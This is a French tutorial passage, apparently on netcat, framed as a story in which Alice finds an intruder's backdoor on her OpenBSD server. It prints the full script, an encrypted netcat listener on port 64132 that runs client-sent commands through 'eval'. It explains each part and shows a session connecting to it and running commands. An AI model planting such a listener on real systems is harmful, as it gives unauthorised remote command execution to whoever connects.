 ```
alice@lingwe$ ssh -oProxyCommand="/usr/bin/nc -X 5 -x 127.0.0.1:8080 %h %p" meldo.net
alice@meldo.net$
```

Arrivée sur le serveur, ce dernier semble peu réactif. Après une analyse rapide des processus actifs avec les commandes ps, netstat et fstat, Alice constate qu’un processus est en écoute sur un port TCP peu commun, le port 64132. Étrange. Qui plus est, ce processus n’est autre que netcat… Alice réfléchit quelques secondes, et après analyse du processus étranger, trouve que la commande est exécutée dans un script stocké dans /tmp/reverse_shell.sh.

```shell
#/bin/sh
 
_callback() {
    local line
    while read line; do
        case "${line}" in
            date) printf -- "## "; date;;
            test*) printf -- "## %s\n" "this is just a test";;
            eval*) eval "${line}";;
            *) printf -- "## %s\n" "${line}";;
        esac
    done
}
 
_certificat() {    
        openssl req -x509 -new -outform pem -nodes -subj "/CN=localhost/" \
               -keyout /tmp/server.key -out /tmp/server.crt -batch -days 7}
 
_server() {
    mkfifo /tmp/fifo
    cat /tmp/fifo \        
            | nc -k -c -C /tmp/server.crt -K /tmp/server.key -l 64132 \        
            | _callback >> /tmp/fifo
}
 
_certificat
_server
```

Il semblerait qu’un petit malin ait trouvé un moyen d’arriver à rentrer sur le serveur et y créer un script ! Ce dernier utilise le même principe que celui d’Alice pour l’envoi de mail. Par ailleurs, c’est une version un peu plus évoluée. La fonction _callback() récupère des instructions et les exécute en renvoyant la réponse de la commande. À noter la fonction built-in eval, qui évalue le contenu de la valeur envoyée par le client. La fonction _certificat() permet de générer une clé ainsi qu’un certificat autosigné avec OpenSSL. Finalement, la fonction _server() génère un fichier FIFO, puis l’utilise en collaboration avec netcat. L’argument -k permet de garder le socket ouvert après la déconnexion d’un client, l’argument -c permet d’activer le chiffrement des connexions. Les arguments -C et -K permettent respectivement de configurer le certificat SSL et sa clé. Finalement, l’argument -l permet de faire écouter netcat sur le port TCP 64132 sur toutes les interfaces disponibles. Pour utiliser ce serveur, rien de tel que l’utilisation de netcat comme client.

```
alice@lingwe$ nc -c -T noverify www.meldo.net 64132
test
## this is just a test
date
## Thu Oct 22 19:32:09 UTC 2020
eval uname -a
OpenBSD www.meldo.net 6.8 GENERIC.MP#98 amd64
eval pwd
/tmp
```
